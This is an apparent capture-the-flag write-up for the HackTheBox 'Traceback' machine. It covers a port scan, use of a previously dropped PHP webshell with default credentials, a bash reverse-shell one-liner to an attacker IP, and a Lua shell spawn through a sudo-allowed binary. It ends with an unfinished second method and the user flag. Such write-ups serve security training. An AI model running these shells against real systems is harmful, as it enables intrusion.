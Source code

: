 # TraceBack
> Write-up author: jon-brandy


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5389983-7994-42b7-87d6-c39c262b8597)


## Lessons Learned:
1. Enumeration.
2. Utilizing dropped backdoor.
3. Writing Lua.
4. Generating ssh-keys.
5. Manipulating SSH Motd.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC traceback.htb --min-rate 1000 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-25 19:53 PDT
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9625518e6c830748ce114b1fe56d8a28 (RSA)
|   256 54bd467114bdb242a1b6b02d94143b0d (ECDSA)
|_  256 4dc3f852b885ec9c3e4d572c4a82fd86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.67 seconds
```

1. Based from the nmap results above, seems the machine runs web application at port 80 and opens ssh login at port 22.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0ed872db-def1-40fd-b05b-f01b2f8d6548)


2. Seems the webapp is already compromised and the attacker left a backdoor which is accessible he said.
3. Hence let's execute directory listing using **dirsearch**.
4. However, dirsearch resulting to none. It means the webshell filename is not common.
5. Reviewing the message shown, resulting to no clue other than searching the `Xh4H` name online.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f7d67e1f-c1d5-4919-b0f7-3617db19484b)



6. Traversing on the internet resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f5d980a2-9a97-4b54-a70e-a82e3600451a)


7. Adding **webshell** to our search query, resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/75d799d5-5024-41b6-bf40-3d71becb4ddc)


8. The first result, should be our interest.

> GITHUB

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1384da27-8377-4203-b854-bb513772c9e8)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e6c49331-c7e6-4672-9fe2-3b2ca7ab052a)


9. Enumerating each webshell file, the backdoor dropped is --> `smevk.php`.

> Enter creds --> `admin:admin` (shown at the source code).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/363c04a5-96e9-4972-b799-ee967df3f46e)


10. Indeed it seems the best backdoor 🤲🏻.
11. Long story short, after traversing to `/home/webadmin`, found a note from sysadmin team.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/051e6bac-d543-485c-8429-a6da4faa6d3b)

12. Reviewing the bash history file, found that a binary named **luvit** seems inside the sudo permission.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd1ac823-a2ee-4330-ad17-afd3a7a4c729)


13. This could be used for our privesc method.
14. Great! Anyway let's get more comfy enumeration by getting a reverse shell.
15. I used simple bash reverse shell:

```txt
bash -c 'bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'
```

16. Set up a listener at port **1337** than enter it on the **execute** box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ef6adcff-da39-4c24-bc8b-1fe47e9bbeea)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2a27e9b7-5e5d-4ad5-9b8c-70f7baa8668c)


17. Remembering the **luvit** binary is inside the **sysadmin** home directory, we need to traverse there, but currently we are denied.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7ab4b96-ae8f-45df-8825-c177f4ff3123)


18. BUT thing to note, the binary is still accessible outisde the **sysadmin** home directory.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/30fcc402-ea95-46e5-83d8-9b12e350fb76)


19. Hence, there is a chance the other files are done the same. Now we're targeting the **.ssh** key.
20. Remembering we can specify a username, hence introducing 2 methods can be done to gain access to sysadmin's home directory.
21. The first method is using the **luvit** binary, the second method is by generating the ssh-keys.

===

### 1st Method

- Sending shell spawn LOCs to lua.

```
echo "require('os');" > sysad.lua
echo "os.execute('/bin/bash');" > sysad.lua
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b472f3aa-ca88-4f55-93a5-b44f419c6402)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/54a0f835-d4c9-4fda-a9d1-840b85d5aa60)


### 2nd Method

- Generating ssh-keys

  

## USER FLAG

```
4835038ff249e1ae23de765fc1110e3d
```

## IMPORTANT LINKS

```

```
